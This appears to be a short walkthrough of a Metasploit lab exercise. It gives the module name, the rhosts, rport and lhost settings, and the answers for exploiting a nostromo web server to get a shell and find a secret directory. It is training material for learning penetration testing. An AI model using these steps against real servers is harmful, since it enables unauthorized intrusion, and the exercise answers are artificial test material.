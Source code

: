 It's time to put all the other metasploit tasks together and test them on an example machine. This machine is currently vulnerable to the metasploit module exploit/multi/http/nostromo_code_execon port 80, and this task will take you through the process of exploiting it and gaining a shell on the machine.

Select the module that needs to be exploited
use exploit/multi/http/nostromo_code_exec
What variable do you need to set, to select the remote host

rhosts
How do you set the port to 80

set rport 80
How do you set listening address(Your machine)

lhost
Exploit the machine!

No answer needed
What is the name of the secret directory in the /var/nostromo/htdocs directory?

s3cretd1r
What are the contents of the file inside of the directory?

Woohoo!
